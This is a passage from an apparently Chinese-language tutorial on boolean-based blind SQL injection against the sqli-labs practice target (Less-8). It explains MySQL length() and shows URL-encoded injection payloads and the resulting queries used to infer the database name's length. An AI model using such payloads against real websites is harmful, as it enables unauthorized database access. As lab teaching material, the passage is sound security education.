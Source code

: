 * length() 是一个用来获取字符串长度的内置函数。

  单位是字节，utf8编码下,一个汉字三个字节，一个数字或字母一个字节。

  ​						gbk编码下,一个汉字两个字节，一个数字或字母一个字节。 

* char_length()：单位为字符，不管汉字还是数字或者是字母都算是一个字符。

因为无法通过页面数据回显获取数据，所以只能靠判断对错的方式来获取数据，可以使用MySQL中内置的length()函数获取长度。

* 先使用`<`或`>`确定一个大致的范围，并逐步缩小范围，最后使用`=`确定数据库名的长度

实战中应采取**爆破**方式，但此处为了让各位能更好的理解，故给出一个手工测的例子。例子如下：

先测试大于5

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3E5%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())>5#' LIMIT 0,1;
;
```

> 可能会有人有疑问，这个`SQL`后面下面怎么有个分号单列一行，这是因为上一行后面有一个`#`。`#`号会把后面的内容全部注释掉，执行的时候会忽略掉后面的内容，但`SQL`语句是以分号结尾的，所以在第二行单列了一个分号。
>
> 后续凡是涉及到该靶场均存在此问题，便不再重复赘述。

网站有返回

![](image/7.jpg)

再测试小于10

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length(database())%3C10%23
SQL:
SELECT * FROM users WHERE id='1' and length(database())<10#' LIMIT 0,1;
;
```

网站有返回

![](image/8.jpg)
